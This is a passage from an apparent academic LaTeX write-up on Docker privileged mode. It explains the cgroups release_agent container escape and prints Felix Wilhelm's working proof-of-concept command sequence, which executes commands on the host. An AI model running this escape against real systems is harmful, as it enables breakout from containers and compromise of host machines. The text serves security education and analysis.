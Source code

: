 \subsection{Privileged Mode}\label{subsection:privileged}

Docker has a special privileged mode~\cite{Docker-in-Docker-blog}. This mode is enabled if a container is created with the \lstinline{--privileged} flag and it enables access to all host devices and kernel capabilities. This is a powerful mode and enables some useful features (e.g.\ building Docker images inside a Docker container). The downside of privileged mode is that all functionality of the kernel allows an attacker inside the container to escape and access the host.

\medskip

An example of this, is abusing a feature in \lstinline{cgroups}~\cite{CGroup-Docs}. Whenever a \lstinline{cgroup} is released due to an absence of any running processes, it is possible to run a command (called a \lstinline{release_agent}). It is possible to define such a \lstinline{release_agent} in a privileged docker. If the \lstinline{cgroup} is released, the command is run on the host~\cite{TrailOfBits-Docker-Escape}.

\medskip

We can look at a proof of concept of this attack developed by security researcher Felix Wilhelm~\cite{Felix-Wilhem-Tweet}.
\begin{lstlisting}[numbers=left, escapechar=@, caption={Privileged container escape using \lstinline{cgroups}.},captionpos=b,label={listing:privileged-escape}]
(host)$ docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`@\label{line:privileged:d}@
(cont)# mkdir -p $d/w@\label{line:privileged:w}@
(cont)# echo 1 >$d/w/notify_on_release@\label{line:privileged:enable_release_agent}@
(cont)# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`@\label{line:privileged:t}@
(cont)# touch /o
(cont)# echo $t/c >$d/release_agent@\label{line:privileged:release_agent}@
(cont)# printf '#!/bin/sh\nps >'"$t/o" >/c@\label{line:privileged:c}@
(cont)# chmod +x /c
(cont)# sh -c "echo 0 >$d/w/cgroup.procs"@\label{line:privileged:procs}@
(cont)# sleep 1
(cont)# cat /o
\end{lstlisting}

The proof of concept in \autoref{listing:privileged-escape} is a bit hard to read, because it uses a lot of \lstinline{Bash} syntax to abbreviate the commands. We will go over the commands line by line to see what each line does.

